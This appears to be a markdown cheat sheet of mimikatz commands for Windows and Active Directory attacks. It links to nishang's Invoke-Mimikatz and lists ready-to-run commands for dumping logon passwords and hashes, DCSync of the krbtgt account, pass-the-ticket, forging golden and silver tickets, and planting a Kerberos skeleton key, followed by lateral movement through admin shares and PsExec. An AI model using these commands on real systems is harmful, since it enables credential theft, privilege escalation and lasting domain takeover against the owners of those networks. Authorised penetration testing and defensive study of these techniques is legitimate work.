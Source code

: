 # mimikatz

* [nishang/Gather/Invoke-Mimikatz.ps1](https://github.com/samratashok/nishang/blob/master/Gather/Invoke-Mimikatz.ps1)

```bash
.\mimikatz 'COMMAND' exit
```

## check

```bash
privilege::debug
# Privilege '20' OK => Working properly
```

## dump password / hashes

```bash
# dump logon users pass
sekurlsa::logonpasswords

# dump hashes
lsadump:sam
lsadump::lsa [/inject | /patch]
# hashcat -m 1000 <hash>
```

## dcsync

```bash
lsadump::dcsync /user:krbtgt
```

## elevate shell integrity

```bash
# use when using evil-winrm, we get medium integrity shells
token::elevate
```

## Pass-the-ticket

```bash
# exports all .kirbi to current directory
sekurlsa::tickets /export

# PTT using admin .kirbi 
kerberos::ptt TICKET

# to check if ticket is working
> klist
```

## Golden / Silver Ticket

```bash
# dump hash and SID
lsadump::lsa /inject /name: [krbtgt | DOMAIN_ADMIN_ACCOUNT | SERVICE_ACCOUNT] 

# create golden ticket and pass-the-ticket
kerberos::golden /user:Administrator /domain:DOMAIN /sid:SID /krbtgt:KRBTGT_NTLM_HASH /id:500 /ptt
# create silver ticket and pass-the-ticket
kerberos::golden /user:<USER> /domain:DOMAINM /sid:SID /krbtgt:SERVICE_NTLM_hash /id:1103 /ptt

# check
misc::cmd
dir \\IP\c$ [/user:USER PASS]
PsExec.exe \\IP cmd.exe

```

## kerberos Skeleton Key

```bash
misc::skeleton

# done, now accessing admin share
> net use C:\\DOMAIN-CONTROLLER\admin$ /user:Administrator mimikatz
> dir \\Desktop-1\c$ /user:Machine1 mimikatz
```